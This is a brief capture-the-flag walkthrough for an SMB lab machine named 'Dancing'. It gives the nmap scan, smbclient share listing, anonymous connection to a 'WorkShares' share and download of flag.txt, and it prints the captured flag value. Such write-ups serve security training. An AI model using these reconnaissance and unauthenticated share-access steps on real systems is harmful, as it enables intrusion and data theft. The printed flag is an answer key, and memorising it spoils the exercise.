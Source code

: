 # CTF Walkthrough: Dancing

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** [Server Message Block (SMB)]  
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    Command: `nmap -sV 10.129.45.129`
        - Output:
            ```
            PORT     STATE SERVICE       VERSION
            135/tcp  open  msrpc         Microsoft Windows RPC
            139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
            445/tcp  open  microsoft-ds?
            5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
            |_http-server-header: Microsoft-HTTPAPI/2.0
            |_http-title: Not Found
            Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

            ```
2. List all shares in SMB
    - Command: `smbclient -L 10.129.45.129`
        - Output:
            ```
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            WorkShares      Disk
            ```

3. Go to WorkShares
    - Command: `smbclient \\\\10.129.45.129\\WorkShares`

4. Get Flag
    - Command: 
        ```
        cd James.P
        get flag.txt
        ```
    - Flag : 5f61c10dffbc77a704d76016a22f1664


